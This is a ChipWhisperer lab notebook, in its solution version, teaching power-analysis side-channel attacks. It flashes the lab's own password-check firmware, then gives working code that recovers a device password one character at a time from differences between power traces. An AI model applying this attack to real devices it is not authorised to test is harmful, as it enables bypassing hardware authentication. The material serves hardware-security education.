




SOLUTION WITH SIMULATION: Part 2, Topic 1, Lab B: Power Analysis for Password Bypass
====================================================================================


**SUMMARY:** *This tutorial will introduce you to breaking devices by
determining when a device is performing certain operations. Our target
device will be performing a simple password check, and we will
demonstrate how to perform a basic power analysis.*

**LEARNING OUTCOMES:**

-  How power can be used to determine timing information.
-  Plotting multiple iterations while varying input data to find
   interesting locations.
-  Using difference of waveforms to find interesting locations.
-  Performing power captures with ChipWhisperer hardware (hardware only)

Prerequisites
-------------

Hold up! Before you continue, check you've done the following tutorials:

-  ☑ Jupyter Notebook Intro (you should be OK with plotting & running
   blocks).
-  ☑ SCA101 Intro (you should have an idea of how to get
   hardware-specific versions running).

Power Trace Gathering
---------------------

At this point you've got to insert code to perform the power trace
capture. There are two options here: \* Capture from physical device. \*
Read from a file.

You get to choose your adventure - see the two notebooks with the same
name of this, but called ``(SIMULATED)`` or ``(HARDWARE)`` to continue.
Inside those notebooks you should get some code to copy into the
following section, which will define the capture function.

Be sure you get the ``"✔️ OK to continue!"`` print once you run the next
cell, otherwise things will fail later on!

Choose your setup options here:


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'CWNANO'
    PLATFORM = 'CWNANO'
    VERSION = 'HARDWARE'
    SS_VER = 'SS_VER_2_1'
    allowable_exceptions = None
    CRYPTO_TARGET = 'TINYAES128C'


**In [2]:**

.. code:: ipython3

    if VERSION == 'HARDWARE':
        
        #!/usr/bin/env python
        # coding: utf-8
        
        # 
        # 
        # **THIS IS NOT THE COMPLETE TUTORIAL - see file with (MAIN) in the name. Paste all this code before the first Python block**
        
        # First you'll need to select which hardware setup you have. You'll need to select both a `SCOPETYPE` and a `PLATFORM`. `SCOPETYPE` can either be `'OPENADC'` for the CWLite/CW1200 or `'CWNANO'` for the CWNano. `PLATFORM` is the target device, with `'CWLITEARM'`/`'CW308_STM32F3'` being the best supported option, followed by `'CWLITEXMEGA'`/`'CW308_XMEGA'`, then by `'CWNANO'`. As of CW 5.4, you can select the SimpleSerial version
        # used. For example:
        # 
        # ```python
        # SCOPETYPE = 'OPENADC'
        # PLATFORM = 'CWLITEARM'
        # SS_VER = 'SS_VER_1_1'
        # ```
        
        # In[ ]:
        
        
        
        
        
        # This code will connect the scope and do some basic setup. We're now just going to use a special setup script to do this. This script contains the commands we ran seperately before.
        
        # In[ ]:
        
        
        
        #!/usr/bin/env python
        # coding: utf-8
        
        # In[ ]:
        
        
        import chipwhisperer as cw
        
        try:
            if not scope.connectStatus:
                scope.con()
        except NameError:
            scope = cw.scope(hw_location=(5, 7))
        
        try:
            if SS_VER == "SS_VER_2_1":
                target_type = cw.targets.SimpleSerial2
            elif SS_VER == "SS_VER_2_0":
                raise OSError("SS_VER_2_0 is deprecated. Use SS_VER_2_1")
            else:
                target_type = cw.targets.SimpleSerial
        except:
            SS_VER="SS_VER_1_1"
            target_type = cw.targets.SimpleSerial
        
        try:
            target = cw.target(scope, target_type)
        except:
            print("INFO: Caught exception on reconnecting to target - attempting to reconnect to scope first.")
            print("INFO: This is a work-around when USB has died without Python knowing. Ignore errors above this line.")
            scope = cw.scope(hw_location=(5, 7))
            target = cw.target(scope, target_type)
        
        
        print("INFO: Found ChipWhisperer😍")
        
        
        # In[ ]:
        
        
        if "STM" in PLATFORM or PLATFORM == "CWLITEARM" or PLATFORM == "CWNANO":
            prog = cw.programmers.STM32FProgrammer
        elif PLATFORM == "CW303" or PLATFORM == "CWLITEXMEGA":
            prog = cw.programmers.XMEGAProgrammer
        elif "neorv32" in PLATFORM.lower():
            prog = cw.programmers.NEORV32Programmer
        else:
            prog = None
        
        
        # In[ ]:
        
        
        import time
        time.sleep(0.05)
        scope.default_setup()
        def reset_target(scope):
            if PLATFORM == "CW303" or PLATFORM == "CWLITEXMEGA":
                scope.io.pdic = 'low'
                time.sleep(0.1)
                scope.io.pdic = 'high_z' #XMEGA doesn't like pdic driven high
                time.sleep(0.1) #xmega needs more startup time
            elif "neorv32" in PLATFORM.lower():
                raise IOError("Default iCE40 neorv32 build does not have external reset - reprogram device to reset")
            else:  
                scope.io.nrst = 'low'
                time.sleep(0.05)
                scope.io.nrst = 'high_z'
                time.sleep(0.05)
        
        
    
        
        
        # The following code will build the firmware for the target.
        
        # In[ ]:
        
        
        try:
            get_ipython().run_cell_magic('bash', '-s "$PLATFORM" "$SS_VER"', 'cd ../../../hardware/victims/firmware/basic-passwdcheck\nmake PLATFORM=$1 CRYPTO_TARGET=NONE SS_VER=$2\n &> /tmp/tmp.txt')
        except:
            x=open("/tmp/tmp.txt").read(); print(x); raise OSError(x)
    
        
        
        # Finally, all that's left is to program the device, which can be done with the following line:
        
        # In[ ]:
        
        
        cw.program_target(scope, prog, "../../../hardware/victims/firmware/basic-passwdcheck/basic-passwdcheck-{}.hex".format(PLATFORM))
        
        
        # To make interacting with the hardware easier, let's define a function to attempt a password and return a power trace:
        
        # In[ ]:
        
        
        def cap_pass_trace(pass_guess):
            reset_target(scope)
            num_char = target.in_waiting()
            while num_char > 0:
                target.read(num_char, 10)
                time.sleep(0.01)
                num_char = target.in_waiting()
        
            scope.arm()
            target.write(pass_guess)
            ret = scope.capture()
            if ret:
                print('Timeout happened during acquisition')
        
            trace = scope.get_last_trace()
            return trace
        
        
        # We also don't need all of the default 5000 samples in the trace. 3000 is a good starting point for most targets:
        
        # In[ ]:
        
        
        scope.adc.samples = 3000
        
        
    
    elif VERSION == 'SIMULATED':
        
        #!/usr/bin/env python
        # coding: utf-8
        
        # # Power Analysis for Password Bypass - SIMULATED Setup
        
        # ---
        # **THIS IS NOT THE COMPLETE TUTORIAL - see file with `(MAIN)` in the name.**
        # 
        # ---
        
        # Sure you don't have hardware, but that doesn't mean we can't have fun! If you check the ChipWhisperer based lab (using hardware), you'll find that the capture function is defined like this:
        #     
        #     def cap_pass_trace(pass_guess):   
        #         ret = ""
        #         reset_target(scope)
        #         num_char = target.in_waiting()
        #         while num_char > 0:
        #             ret += target.read(num_char, 10)
        #             time.sleep(0.01)
        #             num_char = target.in_waiting()
        # 
        #         scope.arm()
        #         target.write(pass_guess)
        #         ret = scope.capture()
        #         if ret:
        #             print('Timeout happened during acquisition')
        # 
        #         trace = scope.get_last_trace()
        #         return trace
        #         
        # This sends a password guess to the target device, and returns a power trace associated with the guess in question. So for example you could run:
        # 
        #     cap_pass_trace("abcde\n")
        #     
        # To get a power trace of `abcde`.
        # 
        # Instead, we have a function that uses pre-recorded data. Run the following block and it should give you access to a function that uses pre-recorded data. While how you use the function is the same, note the following limitations:
        # 
        # * Not every combination is stored in the system -- instead it stores similar power traces.
        # * 100 traces are stored for each guess, and it randomly returns one to still give you the effect of noise.
        # 
        
        # In[ ]:
        
        
        
        #!/usr/bin/env python
        # coding: utf-8
        
        # In[ ]:
        
        
        import pickle
        import random
        import time
        
        traces_to_load = pickle.load(open("traces/lab2_1b_passwords_full.p", "rb"))
        
        def cap_pass_trace(pass_guess):
            if pass_guess.endswith("\n") is False:
                raise ValueError("Password guess must end with \\n")
                
            pass_guess = pass_guess.strip("\n")
            
            known_passwd = "h0px3"
                
            trylist = "abcdefghijklmnopqrstuvwxyz0123456789 \x00"
            
            if len(pass_guess) > 5:
                raise ValueError("Only guesses up to 5 chars recorded, sorry about that.")
                
            for a in pass_guess:
                if a not in trylist:
                    raise ValueError("Part of guess (%c) not in recorded enumeration list (%s)"%(a, trylist))
                    
            #Only recorded is correct passwords
            recorded_pw = ""
            for i in range(0, len(pass_guess)):
                if known_passwd[i] != pass_guess[i]:
                    recorded_pw += " "
                else:
                    recorded_pw += pass_guess[i]
                    
            time.sleep(0.05)
                    
            return traces_to_load[recorded_pw][random.randint(0, 99)]
        
        
    
        
        trace_test = cap_pass_trace("h\n")
        
        #Basic sanity check
        assert(len(trace_test) == 3000)
        print("✔️ OK to continue!")
        
        
        # But wait - this lab isn't the one you need to run it in! Instead copy the above block into the lab in the requested section, and you should be ready to rock.
        


**Out [2]:**


.. parsed-literal::

    INFO: Found ChipWhisperer😍
    SS\_VER set to SS\_VER\_2\_1
    make clean\_objs .dep 
    make[1]: Entering directory '/home/cwtests/chipwhisperer/hardware/victims/firmware/basic-passwdcheck'
    SS\_VER set to SS\_VER\_2\_1
    rm -f -- basic-passwdcheck-CWNANO.hex
    rm -f -- basic-passwdcheck-CWNANO.eep
    rm -f -- basic-passwdcheck-CWNANO.cof
    rm -f -- basic-passwdcheck-CWNANO.elf
    rm -f -- basic-passwdcheck-CWNANO.map
    rm -f -- basic-passwdcheck-CWNANO.sym
    rm -f -- basic-passwdcheck-CWNANO.lss
    rm -f -- objdir-CWNANO/\*.o
    rm -f -- objdir-CWNANO/\*.lst
    rm -f -- basic-passwdcheck.s simpleserial.s stm32f0\_hal\_nano.s stm32f0\_hal\_lowlevel.s
    rm -f -- basic-passwdcheck.d simpleserial.d stm32f0\_hal\_nano.d stm32f0\_hal\_lowlevel.d
    rm -f -- basic-passwdcheck.i simpleserial.i stm32f0\_hal\_nano.i stm32f0\_hal\_lowlevel.i
    mkdir -p .dep
    make[1]: Leaving directory '/home/cwtests/chipwhisperer/hardware/victims/firmware/basic-passwdcheck'
    make begin gccversion build sizeafter fastnote end
    make[1]: Entering directory '/home/cwtests/chipwhisperer/hardware/victims/firmware/basic-passwdcheck'
    SS\_VER set to SS\_VER\_2\_1
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc (15:6.3.1+svn253039-1build1) 6.3.1 20170620
    Copyright (C) 2016 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    mkdir -p objdir-CWNANO 
    .
    Compiling C: basic-passwdcheck.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_2\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -DSS\_VER\_2\_0=2 -DSS\_VER\_2\_1=3 -DSS\_VER\_1\_1=1 -DSS\_VER\_1\_0=0 -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir-CWNANO/basic-passwdcheck.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck.o.d basic-passwdcheck.c -o objdir-CWNANO/basic-passwdcheck.o
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_2\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -DSS\_VER\_2\_0=2 -DSS\_VER\_2\_1=3 -DSS\_VER\_1\_1=1 -DSS\_VER\_1\_0=0 -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir-CWNANO/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir-CWNANO/simpleserial.o
    .
    Compiling C: .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_2\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -DSS\_VER\_2\_0=2 -DSS\_VER\_2\_1=3 -DSS\_VER\_1\_1=1 -DSS\_VER\_1\_0=0 -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir-CWNANO/stm32f0\_hal\_nano.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_nano.o.d .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c -o objdir-CWNANO/stm32f0\_hal\_nano.o
    .
    Compiling C: .././hal/stm32f0/stm32f0\_hal\_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_2\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -DSS\_VER\_2\_0=2 -DSS\_VER\_2\_1=3 -DSS\_VER\_1\_1=1 -DSS\_VER\_1\_0=0 -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir-CWNANO/stm32f0\_hal\_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_lowlevel.o.d .././hal/stm32f0/stm32f0\_hal\_lowlevel.c -o objdir-CWNANO/stm32f0\_hal\_lowlevel.o
    .
    Assembling: .././hal/stm32f0/stm32f0\_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -ffunction-sections -DF\_CPU=7372800 -Wa,-gstabs,-adhlns=objdir-CWNANO/stm32f0\_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ .././hal/stm32f0/stm32f0\_startup.S -o objdir-CWNANO/stm32f0\_startup.o
    .
    Linking: basic-passwdcheck-CWNANO.elf
    arm-none-eabi-gcc -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_2\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -DSS\_VER\_2\_0=2 -DSS\_VER\_2\_1=3 -DSS\_VER\_1\_1=1 -DSS\_VER\_1\_0=0 -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir-CWNANO/basic-passwdcheck.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck-CWNANO.elf.d objdir-CWNANO/basic-passwdcheck.o objdir-CWNANO/simpleserial.o objdir-CWNANO/stm32f0\_hal\_nano.o objdir-CWNANO/stm32f0\_hal\_lowlevel.o objdir-CWNANO/stm32f0\_startup.o --output basic-passwdcheck-CWNANO.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f0\_nano/LinkerScript.ld -Wl,--gc-sections -lm -mthumb -mcpu=cortex-m0  -Wl,-Map=basic-passwdcheck-CWNANO.map,--cref   -lm  
    .
    Creating load file for Flash: basic-passwdcheck-CWNANO.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature basic-passwdcheck-CWNANO.elf basic-passwdcheck-CWNANO.hex
    .
    Creating load file for Flash: basic-passwdcheck-CWNANO.bin
    arm-none-eabi-objcopy -O binary -R .eeprom -R .fuse -R .lock -R .signature basic-passwdcheck-CWNANO.elf basic-passwdcheck-CWNANO.bin
    .
    Creating load file for EEPROM: basic-passwdcheck-CWNANO.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex basic-passwdcheck-CWNANO.elf basic-passwdcheck-CWNANO.eep \|\| exit 0
    .
    Creating Extended Listing: basic-passwdcheck-CWNANO.lss
    arm-none-eabi-objdump -h -S -z basic-passwdcheck-CWNANO.elf > basic-passwdcheck-CWNANO.lss
    .
    Creating Symbol Table: basic-passwdcheck-CWNANO.sym
    arm-none-eabi-nm -n basic-passwdcheck-CWNANO.elf > basic-passwdcheck-CWNANO.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       4732	     12	   1172	   5916	   171c	basic-passwdcheck-CWNANO.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CWNANO Built-in Target (STM32F030) with:
    + CRYPTO\_TARGET = NONE
    + CRYPTO\_OPTIONS = AES128C
    +--------------------------------------------------------
    make[1]: Leaving directory '/home/cwtests/chipwhisperer/hardware/victims/firmware/basic-passwdcheck'
    Detected known STMF32: STM32F04xxx
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 4743 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 4743 bytes


**In [3]:**

.. code:: ipython3

    trace_test = cap_pass_trace("h\n")
    
    #Basic sanity check
    assert(len(trace_test) == 3000)
    print("✔️ OK to continue!")


**Out [3]:**


.. parsed-literal::

    ✔️ OK to continue!


Exploration
-----------

So what can we do with this? While first off - I'm going to cheat, and
tell you that we have a preset password that starts with ``h``, and it's
5 characters long. But that's the only hint so far - what can you do?
While first off, let's try plotting a comparison of ``h`` to something
else.

If you need a reminder of how to do a plot - see the matplotlib section
of the **Jupyter Introduction** notebook.

The following cell shows you how to capture one power trace with ``h``
sent as a password. From there:

1. Try adding the plotting code and see what it looks like.
2. Send different passwords to the device. We're only going to look at
   the difference between a password starting with ``h`` and something
   else right now.
3. Plot the different waveforms.


**In [4]:**

.. code:: ipython3

    #Example - capture 'h' - end with newline '\n' as serial protocol expects that
    trace_h = cap_pass_trace("h\n")
    
    print(trace_h)
    
    # ###################
    # START SOLUTION
    # ###################
    %matplotlib inline
    import matplotlib.pyplot as plt
    plt.figure()
    plt.plot(cap_pass_trace("h\n"))
    plt.plot(cap_pass_trace("0\n"))
    plt.show()
    # ###################
    # END SOLUTION
    # ###################


**Out [4]:**


.. parsed-literal::

    [0.1796875  0.32421875 0.125      ... 0.20703125 0.08984375 0.01171875]





For reference, the output should look something like this:

If you are using the ``%matplotlib notebook`` magic, you can zoom in at
the start. What you want to notice is there is two code paths taken,
depending on a correct or incorrect path. Here for example is a correct
& incorrect character processed:

OK interesting -- what's next? Let's plot every possible password
character we could send.

Our password implementation only recognizes characters in the list
``abcdefghijklmnopqrstuvwxyz0123456789``, so we're going to limit it to
those valid characters for now.

Write some code in the following block that implements the following
algorithm:

::

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        plot(trace)
        

The above isn't quite valid code - so massage it into place! You also
may notice the traces are way too long - you might want to make a more
narrow plot that only does the first say 500 samples of the power trace.


**In [5]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    from tqdm.notebook import tqdm
    plt.figure()
    for c in tqdm('abcdefghijklmnopqrstuvwxyz0123456789'):
        trace = cap_pass_trace(c + "\n")
        plt.plot(trace[0:500])
    
    # ###################
    # END SOLUTION
    # ###################


**Out [5]:**


.. parsed-literal::

      0%|          | 0/36 [00:00<?, ?it/s]





The end result should be if you zoom in, you'll see there is a location
where a single "outlier" trace doesn't follow the path of all the other
traces. That is great news, since it means we learn something about the
system from power analysis.

Using your loop - you can also try modifying the analysis to capture a
correct "first" character, and then every other wrong second character.
Do you see a difference you might be able to detect?

The pseudo-code would look something like this:

::

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace("h" + CHARACTER + "\n")
        plot(trace)

Give that a shot in your earlier code-block, and then let's try and
automate this attack to understand the data a little better.

Automating an Attack against One Character
------------------------------------------

To start with - we're going to automate an attack against a **single**
character of the password. Since we don't know the password (let's
assume), we'll use a strategy of comparing all possible inputs together.

An easy way to do this might be to use something that we know can't be
part of the valid password. As long as it's processed the same way, this
will work just fine. So for now, let's use a password as ``0x00`` (i.e.,
a null byte). We can compare the null byte to processing something else:


**In [6]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("\x00\n")[0:500]
    plt.plot(ref_trace)
    other_trace = cap_pass_trace("c\n")[0:500]
    plt.plot(other_trace)
    plt.show()


**Out [6]:**





This will plot a trace with an input of ":raw-latex:`\x`00" - a null
password! This is an invalid character, and seems to be processed as any
other invalid password.

Let's make this a little more obvious, and plot the difference between a
known reference & every other capture. You need to write some code that
does something like this:

::

    ref_trace = cap_pass_trace( "\x00\n")

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        plot(trace - ref_trace)

Again, you may need to modify this a little bit such as adding code to
make a new ``figure()``. Also notice in the above example how I reduced
the number of samples.


**In [7]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("h0p\x00\n")[0:500]
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace('h0p' + c + "\n")[0:500]
        plt.plot(trace - ref_trace)
    
    # ###################
    # END SOLUTION
    # ###################
        


**Out [7]:**





OK great - hopefully you now see one major "difference". It should look
something like this:

What do do now? Let's make this thing automatically detect such a large
difference. Some handy stuff to try out is the ``np.sum()`` and
``np.abs()`` function.

The first one will get absolute values:

.. code:: python

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])

        Out[]: array([1, 3, 1, 5, 6])

The second one will add up all the numbers.

.. code:: python

    import numpy as np    
    np.sum([-1, -3, 1, -5, 6])

        Out[]: -2

Using just ``np.sum()`` means positive and negative differences will
cancel each other out - so it's better to do something like
``np.sum(np.abs(DIFF))`` to get a good number indicating how "close" the
match was.


**In [8]:**

.. code:: ipython3

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])


**Out [8]:**


.. parsed-literal::

    array([1, 3, 1, 5, 6])


**In [9]:**

.. code:: ipython3

    import numpy as np
    np.sum([-1, -3, 1, -5, 6])


**Out [9]:**


.. parsed-literal::

    -2


**In [10]:**

.. code:: ipython3

    np.sum(np.abs([-1, -3, 1, -5, 6]))


**Out [10]:**


.. parsed-literal::

    16


Taking your above loop, modify it to print an indicator of how closely
this matches your trace. Something like the following should work:

::

    ref_trace = cap_pass_trace( "\x00\n")

    for CHARACTER in LIST_OF_VALID_CHARACTERS:
        trace = cap_pass_trace(CHARACTER + "\n")
        diff = SUM(ABS(trace - ref_trace))

        print("{:1} diff = {:2}".format(CHARACTER, diff))


**In [11]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    ref_trace = cap_pass_trace( "h0p\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace("h0p" + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        
        print("{:1} diff = {:2}".format(c, diff))
        
    # ###################
    # END SOLUTION
    # ###################


**Out [11]:**


.. parsed-literal::

    a diff = 17.2890625
    b diff = 16.07421875
    c diff = 11.47265625
    d diff = 14.49609375
    e diff = 15.6640625
    f diff = 16.98828125
    g diff = 16.37109375
    h diff = 14.09375
    i diff = 14.59765625
    j diff = 17.28125
    k diff = 16.14453125
    l diff = 15.8515625
    m diff = 15.4453125
    n diff = 13.671875
    o diff = 15.203125
    p diff = 14.78515625
    q diff = 17.34375
    r diff = 15.3828125
    s diff = 13.234375
    t diff = 16.2109375
    u diff = 19.2265625
    v diff = 16.21875
    w diff = 17.8203125
    x diff = 433.2109375
    y diff = 14.15234375
    z diff = 17.07421875
    0 diff = 16.70703125
    1 diff = 13.7421875
    2 diff = 11.4609375
    3 diff = 14.109375
    4 diff = 14.31640625
    5 diff = 15.89453125
    6 diff = 13.4375
    7 diff = 13.30859375
    8 diff = 16.9375
    9 diff = 14.86328125


Now the easy part - modify your above code to automatically print the
correct password character. This should be done with a comparison of the
``diff`` variable - based on the printed characters, you should see one
that is 'higher' than the others. Set a threshold somewhere reasonable
(say I might use ``25.0`` based on one run).

Running a Full Attack
---------------------

Finally - let's finish this off. Rather than attacking a single
character, we need to attack each character in sequence.

If you go back to the plotting of differences, you can try using the
correct first character & wrong second character. The basic idea is
exactly the same as before, but now we loop through 5 times, and just
build up the password based on brute-forcing each character.

Take a look at the following for the basic pseudo-code:

::

    guessed_pw = "" #Store guessed password so far

    do a loop 5 times (max password size):
        
        ref_trace = capture power trace(guessed_pw + "\x00\n")
        
        for CHARACTER in LIST_OF_VALID_CHARACTERS:
            trace = capture power trace (guessed_pw + CHARACTER + newline)
            diff = SUM(ABS(trace - ref_trace))
            
            if diff > THRESHOLD:
                
                guessed_pwd += c
                print(guessed_pw)
                
                break


**In [12]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    guessed_pw = ""
    
    
    for _ in range(0, 5):  
    
        ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
        
        for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
            trace = cap_pass_trace(guessed_pw + c + "\n")
            diff = np.sum(np.abs(trace - ref_trace))
    
            if diff > 40.0:
                guessed_pw += c
                print(guessed_pw)
                break
    
    # ###################
    # END SOLUTION
    # ###################


**Out [12]:**


.. parsed-literal::

    h
    h0
    h0p
    h0px
    h0px3


You should get an output that looks like this:

::

    h
    h0
    h0p
    h0px
    h0px3

If so - 🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳 Congrats - you did it!!!!

If not - check some troubleshooting hints below. If you get really
stuck, check the ``SOLN`` version (there is one for both with hardware
and simulated).

Troubleshooting - Always get 'h'
--------------------------------

Some common problems you might run into - first, if you get an output
which keeps guessing the first character:

::

    h
    hh
    hhh
    hhhh
    hhhhh

Check that when you run the ``cap_pass_trace`` inside the loop (checking
the guessed password), are you updating the prefix of the password? For
example, the old version of the code (guessing a single character)
looked like this:

::

    trace = cap_pass_trace(c + "\n")

But that is always sending our first character only! So we need to send
the "known good password so far". In the example code something like
this:

::

    trace = cap_pass_trace(guessed_pw + c + "\n")

Where ``guessed_pw`` progressively grows with the known good start of
the password.

Troubleshooting - Always get 'a'
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This looks like it's always matching the first character:

::

    h
    ha
    haa
    haaa
    haaaa

Check that you update the ``ref_trace`` - if you re-use the original
reference trace, you won't be looking at a reference where the first N
characters are good, and the remaining characters are bad. An easy way
to do this is again using the ``guessed_pw`` variable and appending a
null + newline:

::

    trace = cap_pass_trace(guessed_pw + "\x00\n")

--------------

NO-FUN DISCLAIMER: This material is Copyright (C) NewAE Technology Inc.,
2015-2020. ChipWhisperer is a trademark of NewAE Technology Inc.,
claimed in all jurisdictions, and registered in at least the United
States of America, European Union, and Peoples Republic of China.

Tutorials derived from our open-source work must be released under the
associated open-source license, and notice of the source must be
*clearly displayed*. Only original copyright holders may license or
authorize other distribution - while NewAE Technology Inc. holds the
copyright for many tutorials, the github repository includes community
contributions which we cannot license under special terms and **must**
be maintained as an open-source release. Please contact us for special
permissions (where possible).

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY
CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT,
TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE
SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.


**In [13]:**

.. code:: ipython3

    assert guessed_pw == 'h0px3', "Failed to break password"
